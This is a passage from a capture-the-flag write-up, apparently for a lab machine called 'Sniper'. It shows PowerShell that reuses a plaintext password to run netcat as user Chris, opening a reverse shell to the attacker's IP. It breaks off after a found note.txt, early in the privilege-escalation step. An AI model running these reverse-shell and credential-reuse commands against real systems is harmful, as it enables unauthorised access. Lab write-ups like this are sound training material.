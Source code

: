 so the commands to execute a program in the context of another user maybe like this

   
    $user = "sniper\Chris"  # to save the username in a variable called user
    $password = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force # convert the password to a plain-text string into password variable
    $credential = New-Object System.Management.Automation.PSCredential ($user, $password) # create a PS credentials object of chris and the db password
    Invoke-Command -ComputerName localhost -ScriptBlock { C:\\temp\\nc64.exe 10.10.17.157 7007 -e powershell.exe } -Credential $credential # run the nc64.exe to connect to us on port 7007 in the context of Chris user using the credentials object we created

![/images/Sniper/chris-shell.png](/images/Sniper/chris-shell.png)

Then we got our shell and here is the user flag.

2- **Elevate priv from Chris to Root.**

After some time exploring the folders, there is a file in the **C:\Docs** folder.

- note.txt

        Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it.
        And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
        Regards,
        Sniper CEO.
